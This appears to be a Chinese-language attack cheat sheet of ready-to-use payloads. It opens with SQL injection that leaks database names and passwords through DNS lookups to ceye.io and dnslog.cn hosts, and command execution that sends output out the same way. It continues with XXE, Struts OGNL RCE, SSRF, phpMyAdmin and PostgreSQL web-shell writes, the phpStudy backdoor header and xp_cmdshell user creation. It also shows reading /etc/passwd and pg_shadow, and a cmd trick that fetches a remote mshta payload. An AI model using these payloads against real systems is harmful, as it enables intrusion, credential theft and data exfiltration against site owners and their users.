http://url/index.php?id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1)-- -
DNSLog
http://ceye.io
http://www.dnslog.cn/
注入
MYSQL
显示数据库
?id=1' and if((select load_file(concat('\\\\',(select database()),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
显示数据库
?id=1' and if((select load_file(concat('\\\\',(select schema_name from information_schema.schemata limit {0},1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
显示表
?id=1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='dbname' limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
?id=1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=0x1x1x2x limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
显示字段
?id=1' and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='users' limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
显示数据
?id=1' and if((select load_file(concat('\\\\',(select hex(user) from users limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
MSSQL
查数据
?id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT master.dbo.fn_varbintohexstr(convert(varbinary,rtrim(pass))) FROM test.dbo.test_user where [USER] = 'admin')%2b'.cece.nk40ci.ceye.io';EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"');
Sa密码
?id=1DECLARE @host varchar(1024);SELECT @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash)FROM sys.sql_loginsWHERE name='sa')+'.ip.port.b182oj.ceye.io';EXEC('master..xp_dirtree"\'+@host+'\foobar$"');
执行命令
exec master..xp_cmdshell "whoami>D:/temp%26%26certutil -encode D:/temp D:/temp2%26%26findstr /L /V ""CERTIFICATE"" D:/temp2>D:/temp3";
exec master..xp_cmdshell "cmd /v /c""set /p MYVAR=< D:/temp3 %26%26 set FINAL=!MYVAR!.xxx.ceye.io %26%26 ping !FINAL!""";
exec master..xp_cmdshell "del ""D:/temp"" ""D:/temp2"" ""D:/temp3""";
postgreSQL
?id=1;DROP TABLE IF EXISTS table_output;CREATE TABLE table_output(content text);CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $$ DECLARE exec_cmd TEXT;DECLARE query_result TEXT;BEGIN SELECT INTO query_result (select encode(pass::bytea,'hex') from test_user where id =1);exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.pSQL.3.nk40ci.ceye.io\\\\foobar.txt\'';EXECUTE exec_cmd;END;$$ LANGUAGE plpgSQL SECURITY DEFINER;SELECT temp_function();
Oracle
?id=1 union SELECT UTL_HTTP.REQUEST((select pass from test_user where id=1)||'.nk40ci.ceye.io') FROM sys.DUAL;
?id=1 union SELECT DBMS_LDAP.INIT((select pass from test_user where id=1)||'.nk40ci.ceye.io',80) FROM sys.DUAL;
?id=1 union SELECT HTTPURITYPE((select pass from test_user where id=1)||'.xx.nk40ci.ceye.io').GETCLOB() FROM sys.DUAL;
?id=1 union SELECT UTL_INADDR.GET_HOST_ADDRESS((select pass from test_user where id=1)||'.ddd.nk40ci.ceye.io') FROM sys.DUAL;
命令执行
>curl http://0ox095.ceye.io/`whoami`
>ping `whoami`.b182oj.ceye.io
>ping %CD%.lfofz7.dnslog.cn 
&
cmd /v /c "whoami > temp && certutil -encode temp temp2 && findstr /L /V "CERTIFICATE" temp2 > temp3 && set /p MYVAR=< temp3 && set FINAL=!MYVAR!.xxx.ceye.io && nslookup !FINAL!"
XXE
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
Struts
xx.action?redirect:http://b182oj.ceye.io/%25{3*4}
xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
weblogic
/uddiexplorer/SearchPublicRegistries.jsp?operator=http://b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
Resin
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://b182oj.ceye.io/ssrf
Discuz
/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
PHPMyadmin
LOG
show variables like '%general%';  #查看配置
set global general_log = on;  #开启general log模式
set global general_log_file = '/var/www/html/1.php'; 
select '<?php eval($_POST[cmd]);?>'
慢查询
show variables like '%slow%';
set GLOBAL slow_query_log_file='C:/WWW/slow.php';
set GLOBAL slow_query_log=on;
set GLOBAL log_queries_not_using_indexes=on;
select '<?php phpinfo();?>' from mysql.db where sleep(10);
任意文件读取
phpMyAdmin 2.x
POST /scripts/setup.php HTTP/1.1
Host: ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
LFI
phpMyAdmin 4.0.1--4.2.12，PHP < 5.3.4
/gis_data_editor.php?token=2941949d3768c57b4342d94ace606e91&gis_data[gis_type]=/../../../../phpinfo.txt%00
phpMyAdmin 4.8.0和4.8.1 后台权限
>select '<?php phpinfo();exit;?>'
/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_***
RCE
PhpMyAdmin 4.0.x-4.6.2，PHP 4.3.0-5.4.6后台权限
>cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
phpMyAdmin 4.8.0~4.8.3
CREATE DATABASE foo;
CREATE TABLE foo.bar (baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
访问http://10.1.1.10/chk_rel.php?fixall_pmadb=1&db=foo
INSERT INTO pma__column_infoSELECT '1', 'foo', 'bar', 'baz', 'plop',
'plop', 'plop', 'plop','../../../../../../../../tmp/sess_***','plop';
访问
/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1
PHP-FPM RCE
>git clone https://github.com/neex/phuip-fpizdam.git
>cd phuip-fpizdam
>go get -v && go build
>go run . http://127.0.0.1/index.php
http://127.0.0.1/index.php?a=id
多执行几次
phpstudy后门
php:5.2.17   5.4.45

GET / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding:gzip,deflate
Accept-Charset:c3lzdGVtKCJuZXQgdXNlciIpOw==
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 2
cmdhijack
From: https://hackingiscool.pl/
poc完整的命令行
cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/calc.exe"
可能产生的影响
包括拒绝服务，信息泄露，任意代码执行（取决于目标应用程序和系统）。
以web应用为例
image

由于使用了escapeshellcmd()，不易受命令注入的影响，使用本方法
一个poc
image image

不限于任何位置，文件
image

再扩展一下 
如，powershell带-enc执行，或mshta等方法，可参考
https://lolbas-project.github.io/，但是依照windows的特性，在无法将完整字符串解析为有效路径的情况下，会拆分空格后面的内容，这里可以使用&符号
如：
>cmd.exe /c "cmd /c /../../../../../../../../../../windows/system32/calc&powershell -enc xxxx"
>cmd.exe /c "cmd /c /../../../../../../../../../../windows/system32/calc&mshta http://192.168.0.105:8080/xsuUEWJ.hta"
image

Database
MSSQL
判断数据库
;and (select count(*) from sysobjects)>0 mssql
;and (select count(*) from msysobjects)>0 access
查库
?id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
?id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
查表
import requests
import re

table_list = ['']

def get_sqlserver_table(table_list, table_num):
	for num in range(0,table_num):
		# print("','".join(table_list))
		sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
		url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
		r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
		res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
		table_name = str(res.group(1))
		table_list.append(table_name)
		print("[{}] - TableName: {}".format(str(r.status_code), table_name))
if __name__ == "__main__":
	get_sqlserver_table(table_list, 16)

判断是否存在xp_cmdshell
and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')
执行命令
;exec master..xp_cmdshell "net user name password /add"—
查看权限
and (select IS_SRVROLEMEMBER('sysadmin'))=1--  //sa
and (select IS_MEMBER('db_owner'))=1--   //  dbo
and (select IS_MEMBER('public'))=1--  //public
站库分离获取服务器IP
;insert into OPENROWSET('SQLOLEDB','uid=sa;pwd=xxx;Network=DBMSSOCN;Address=你的ip,80;', 'select * from dest_table') select * from src_table;--
LOG备份
;alter database testdb set RECOVERY FULL --
;create table cmd (a image) --
;backup log testdb to disk = 'c:\wwwroot\shell.asp' with init --
;insert into cmd (a) values ('<%%25Execute(request("chopper"))%%25>')-- 
;backup log testdb to disk = 'c:\wwwroot\shell.asp' –
2000差异备份
;backup database testdb to disk ='c:\wwwroot\bak.bak';--
;create table [dbo].[testtable] ([cmd] [image]);--
;insert into testtable (cmd) values(木马hex编码);--
;backup database testdb to disk='c:\wwwroot\upload\shell.asp' WITH DIFFERENTIAL,FORMAT;--
2005差异备份
;alter/**/database/**/[testdb]/**/set/**/recovery/**/full—
;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=0x640062006200610063006B00/**/backup/**/database/**/[testdb]/**/to/**/disk=@d/**/with/**/init--
;create/**/table/**/[itpro]([a]/**/image)—
;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=0x640062006200610063006B00/**/backup/**/log/**/[testdb]/**/to/**/disk=@d/**/with/**/init--
;insert/**/into/**/[itpro]([a])/**/values(木马hex编码)—
;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=木马保存路径的SQL_EN编码/**/backup/**/log/**/[testdb]/**/to/**/disk=@d/**/with/**/init--
;drop/**/table/**/[itpro]—
;declare/**/@d/**/nvarchar(4000)/**/select/**/@d=0x640062006200610063006B00/**/backup/**/log/**/[testdb]/**/to/**/disk=@d/**/with/**/init--
PostgreSQL
连接
>psql -U dbuser -d exampledb -h 127.0.0.1 -p 5432
查看版本
>select version();
列出数据库
>select datname from pg_database;
列出所有表名
>select * from pg_tables;
读取账号秘密
>select usename,passwd from pg_shadow;
当前用户
>select user;
修改密码
>alter user postgres with password '123456';
列目录
>select pg_ls_dir('/etc');
读文件
>select pg_read_file('postgresql.auto.conf',0,100); #行数
&
>drop table wooyun;
>create table wooyun(t TEXT);
>copy wooyun FROM '/etc/passwd';
>select * from wooyun limit 1 offset 0;
&
>select lo_import('/etc/passwd',12345678);
>select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a;
写文件
create table shell(shell text not null);
insert into shell values($$<?php @eval($_POST[1]);?>$$);
copy shell(shell) to '/var/www/html/shell.php';
&
copy (select '<?php phpinfo();?>') to '/var/www/html/shell.php';
爆破
MSF>use auxiliary/scanner/postgres/postgres_login
执行命令版本8.2以下
>create function system(cstring) returns int AS '/lib/libc.so.6', 'system' language C strict;
>create function system(cstring) returns int AS '/lib64/libc.so.6', 'system' language C strict;
>select system('id');
